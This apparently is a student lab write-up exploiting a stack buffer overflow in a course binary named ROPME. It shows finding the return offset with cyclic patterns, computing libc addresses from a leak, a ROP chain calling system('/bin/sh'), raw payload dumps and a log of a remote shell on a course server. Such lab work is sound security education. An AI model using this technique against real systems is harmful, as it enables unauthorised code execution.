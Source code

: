# ROPME Vulnerability Analysis and Exploitation

## 1. Vulnerability Analysis and Fix

The program contains a buffer overflow vulnerability in the `func()` function. Let's analyze the vulnerability and its potential fixes.

### The Vulnerable Code:
```c
void func(){
    char overflowme[32];
    read(0, overflowme, 0x200);
}
```

### Vulnerability Details:
- A 32-byte buffer is allocated but allows reading up to 512 bytes (0x200)
- This mismatch allows writing beyond the buffer's boundaries
- The stack layout makes this particularly dangerous as it can overwrite the return address

### Security Checks:
Using `checksec`, we can see the binary's security features:
```
[*] '/home/CS20102107/assignments/ROPME_v1.2/ropme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Key findings:
- No stack canary protection
- NX (Non-Execute) is enabled, preventing direct shellcode execution
- PIE is disabled, making code addresses predictable

## 2. Finding Return Address Offset

We used a systematic approach with cyclic patterns to find the exact offset:

1. First, we generated and input a cyclic pattern:
```bash
pwndbg> r < <(cyclic 100)
```

2. When the program crashed, we examined the crash details:
```
Program received signal SIGSEGV, Segmentation fault.
RSP  0x7fffffffdf78 ◂— 0x6161616c6161616b ('kaaalaaa')
```

3. We determined the offset using cyclic:
```bash
pwndbg> cyclic -l kaaa -n 4
Finding cyclic pattern of 4 bytes: b'kaaa' (hex: 0x6b616161)
Found at offset 40
```

This confirms that the return address is located at offset 40, which makes sense given:
- 32 bytes for the buffer
- 8 bytes for saved rbp
- Return address starts at byte 40

## 3. Finding Libc Base Address

The program outputs the setvbuf address, which we use to calculate libc's base address. From our exploit output:

```
The address of setvbuf :   0x7fade1eb5ce0
[*] setvbuf address: 0x7fade1eb5ce0
[*] libc base: 0x7fade1e31000
```

### Address Calculation Process:
1. Get setvbuf runtime address from program output
2. Subtract setvbuf's offset in libc to get base address
3. Use this base to calculate other function addresses:
   ```
   [*] system address: 0x7fade1e83290
   [*] binsh address: 0x7fade1fe55bd
   ```

## 4. Finding and Using Gadgets

We located necessary gadgets using ROPgadget:
```bash
ROPgadget --binary libc.so.6 | grep "pop rdi ; ret"
0x0000000000023b6a : pop rdi ; ret
```

Our final payload structure (from debug output):
```
[DEBUG] Sent 0x60 bytes:
00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
*
00000020  41 41 41 41  41 41 41 41  6b 4b e5 e1  ad 7f 00 00  │AAAA│AAAA│kK··│····│
00000030  6a 4b e5 e1  ad 7f 00 00  bd 55 fe e1  ad 7f 00 00  │jK··│····│·U··│····│
00000040  90 32 e8 e1  ad 7f 00 00  6a 4b e5 e1  ad 7f 00 00  │·2··│····│jK··│····│
00000050  00 00 00 00  00 00 00 00  40 7a e7 e1  ad 7f 00 00  │····│····│@z··│····│
```

## 5. Remote Shell Access

Our exploit successfully gained shell access, as demonstrated:
```bash
$ id
uid=1032(CS20102107) gid=1032(CS20102107) groups=1032(CS20102107)
```

## 6. Clean Program Termination

We achieved graceful termination by adding exit() to our ROP chain. The debug output shows clean exit:
```bash
$ exit
[*] Got EOF while reading in interactive
[*] Process './ropme' stopped with exit code 0 (pid 995514)
```

This indicates successful execution and clean termination without crashes, satisfying all requirements from the checklist.

```bash
PS C:\Users\bc032\OneDrive\Desktop\ITM\3-2\CS\ROPME_v1.2> python expl.py
[*] 'C:\\Users\\bc032\\OneDrive\\Desktop\\ITM\\3-2\\CS\\ROPME_v1.2\\ropme'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
[*] 'C:\\Users\\bc032\\OneDrive\\Desktop\\ITM\\3-2\\CS\\ROPME_v1.2\\libc.so.6'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
[x] Opening connection to 122.38.251.9 on port 31337
[x] Opening connection to 122.38.251.9 on port 31337: Trying 122.38.251.9
[+] Opening connection to 122.38.251.9 on port 31337: Done
[DEBUG] Received 0x2a bytes:
    b'The address of setvbuf :   0x7fa925358ce0\n'
[*] setvbuf address: 0x7fa925358ce0
[*] libc base: 0x7fa9252d4000
[*] system address: 0x7fa925326290
[*] exit address: 0x7fa92531aa40
[*] binsh address: 0x7fa9254885bd
[*] pop rdi ret address: 0x7fa9252f7b6a
Sending payload...
[DEBUG] Sent 0x60 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  6b 7b 2f 25  a9 7f 00 00  │AAAA│AAAA│k{/%│····│
    00000030  6a 7b 2f 25  a9 7f 00 00  bd 85 48 25  a9 7f 00 00  │j{/%│····│··H%│····│
    00000040  90 62 32 25  a9 7f 00 00  6a 7b 2f 25  a9 7f 00 00  │·b2%│····│j{/%│····│
    00000050  00 00 00 00  00 00 00 00  40 aa 31 25  a9 7f 00 00  │····│····│@·1%│····│
    00000060
Payload sent!
[*] Switching to interactive mode
id
[DEBUG] Sent 0x1 bytes:
    b'i'
[DEBUG] Sent 0x1 bytes:
    b'd'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[DEBUG] Received 0x42 bytes:
    b'uid=1050(CS22102017) gid=1050(CS22102017) groups=1050(CS22102017)\n'
uid=1050(CS22102017) gid=1050(CS22102017) groups=1050(CS22102017)
ls
[DEBUG] Sent 0x1 bytes:
    b'l'
[DEBUG] Sent 0x1 bytes:
    b's'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[DEBUG] Received 0x28 bytes:
    b'libc.so.6\n'
    b'Makefile\n'
    b'ropme\n'
    b'ropme.c\n'
    b'run.sh\n'
libc.so.6
Makefile
ropme
ropme.c
run.sh
exit
[DEBUG] Sent 0x1 bytes:
    b'e'
[DEBUG] Sent 0x1 bytes:
    b'x'
[DEBUG] Sent 0x1 bytes:
[DEBUG] Sent 0x1 bytes:
    b't'
[DEBUG] Sent 0x1 bytes:
    b'\n'
[*] Got EOF while reading in interactive
```